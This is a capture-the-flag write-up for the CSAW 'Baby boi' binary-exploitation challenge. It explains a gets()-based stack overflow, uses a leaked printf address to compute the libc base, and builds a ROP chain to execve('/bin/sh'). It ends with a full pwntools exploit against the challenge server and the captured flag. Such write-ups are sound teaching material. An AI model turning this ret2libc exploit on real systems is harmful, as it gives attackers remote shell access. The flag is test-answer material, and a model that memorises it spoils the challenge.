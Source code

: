 # Baby boi (50)

We are given a 64bit binary, a libc and even the source code .
Our first assumptions is that it's a BOF (Buffer OverFlow) challenge cuz we can see the `gets` function with no control of the input length.
And we can see also that it's giving us the adress of `printf` in libc so no leak needed here.


![img1](executing.png)


and we also have the libc linked in the server so the attack scenario is simple:

1-get the leaked adress of printf.

2-get the offset of printf in libc and calculate the base adress.

3-collect needed gadgets and build the ROP chain.

4-from the base calculate the locations of `execve` and `/bin/sh` string to perform a ```execve("/bin/sh",0,0)``` call in order to get an interractive shell and then we can get the flag.


Let's start by getting offsets of printf and execve. To do that we can use `readelf` with `-s` option on the given libc to get the symbols table and from that we grep printf and execve.


![img2](readelf_printf.png)


we can see that the offset of printf in libc is `0x64e80`.


![img3](readelf_execve.png)


and the offset of execve in libc is `0xe4e30`.

okay let's start creating our exploit. Pwntools will make our life so much easier. First of all we have to get the leaked adress and calculate the base location.


```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
```

![img4](ex1.png)

if you notice that the base adress of libc always ends with 000 that's because it's the beginning.

now we have to calculate the location of execve by adding the execve offset from libc to the base so the exploit become like:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
execve = base + 0x00000000000e4e30
print "execve_libc: ",hex(execve)
```

we can use gdb to calculate of offset between `execve` and `/bin/sh` string in libc so we can calculate its location.

![img5](gdb.png)


we can see that the offset is `0xcf06a`.

Okay now we need just the gadgets to perform the call that we want execve needs 3 arguments so we have to control `rdi`,`rsi` and `rdx` nad it's not a problem since we have the libc file and the libc base we can calculate locations for every gadget we want.

last step to go is to get the padding of the stack to control `RIP` or the instructions pointer peda is very good at this using its `pattern` tool with `create` and `offset` options.

![img6](patt.png)

We can see that the padding is 40 so our buffer is away 40 bytes from the saved return adress.

Everything is ready now just we need to complete the exploit and run it:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
#p = process("./baby_boi",env=env)
p = remote("pwn.chal.csaw.io",1005)

data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x0000000000064e80
execve = base + 0x00000000000e4e30
binsh = execve + 0xcf06a
print "base: ",hex(base)
print "execve_libc: ",hex(execve)
print "binsh: ",hex(binsh)
pop_rdi = 0x0000000000400793
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x0000000000400791)
paylaod += p64(0)
paylaod += p64(0)
paylaod += p64(pop_rdi)
paylaod += p64(binsh)
paylaod += p64(execve)
p.sendline(paylaod)
p.interactive()
```
![img7](final.png)

FLAG: `flag{baby_boi_dodooo_doo_doo_dooo}`
